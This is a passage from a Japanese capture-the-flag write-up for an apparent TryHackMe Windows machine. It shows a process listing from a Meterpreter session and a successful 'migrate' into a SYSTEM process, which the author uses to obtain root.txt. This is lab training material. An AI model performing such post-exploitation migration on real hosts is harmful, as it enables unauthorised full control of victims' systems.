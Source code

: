 ```
 1336  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1408  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1444  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1472  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1644  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1740  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1832  1644  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1884  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1908  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2244  872   sheshe.exe            x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\sheshe.exe
 2528  1832  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2620  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2928  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2964  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3056  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe

meterpreter > migrate 668
[*] Migrating from 2244 to 668...
[*] Migration completed successfully.

```

プロセスの乗り移りに成功しました。
これで root.txt を取得できます。

## 終わりに
今回の machine は今まで知らなかった Windows の token とはなんぞやみたいな部分などかなり勉強になる machine でした。
TryHackMe は丁寧な誘導があるのでこう言ったわけわからん machine でも挑戦するハードルが低いところがいい点ですね。

